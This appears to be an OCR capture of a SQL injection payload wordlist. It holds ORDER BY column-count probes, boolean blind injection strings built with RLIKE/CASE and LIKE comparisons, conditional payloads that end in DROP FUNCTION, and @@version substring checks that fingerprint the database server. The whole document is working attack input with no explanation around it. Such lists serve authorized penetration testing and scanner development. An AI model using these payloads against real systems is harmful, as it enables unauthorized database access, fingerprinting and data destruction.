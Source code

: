  ORDER BY 19# 
 ORDER BY 20# 
 ORDER BY 21# 
 ORDER BY 22# 
 ORDER BY 23# 
 ORDER BY 24# 
 ORDER BY 25# 
 ORDER BY 26# 
 ORDER BY 27# 
 ORDER BY 28# 
 ORDER BY 29# 
 ORDER BY 30#
 ORDER BY 31337#
 ORDER BY 1 
 ORDER BY 2 
 ORDER BY 3 
 ORDER BY 4 
 ORDER BY 5 
 ORDER BY 6 
 ORDER BY 7 
 ORDER BY 8 
 ORDER BY 9 
 ORDER BY 10 
 ORDER BY 11 
 ORDER BY 12 
 ORDER BY 13 
 ORDER BY 14 
 ORDER BY 15 
 ORDER BY 16 
 ORDER BY 17 
 ORDER BY 18 
 ORDER BY 19 
 ORDER BY 20 
 ORDER BY 21 
 ORDER BY 22 
 ORDER BY 23 
 ORDER BY 24 
 ORDER BY 25 
 ORDER BY 26 
 ORDER BY 27 
 ORDER BY 28 
 ORDER BY 29 
 ORDER BY 30 
 ORDER BY 31337 
 RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
 RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
 and (select substring(@@version,1,1))='X'
 and (select substring(@@version,1,1))='M'
 and (select substring(@@version,2,1))='i'
 and (select substring(@@version,2,1))='y'
 and (select substring(@@version,3,1))='c'
 and (select substring(@@version,3,1))='S'
 and (select substring(@@version,3,1))='X'
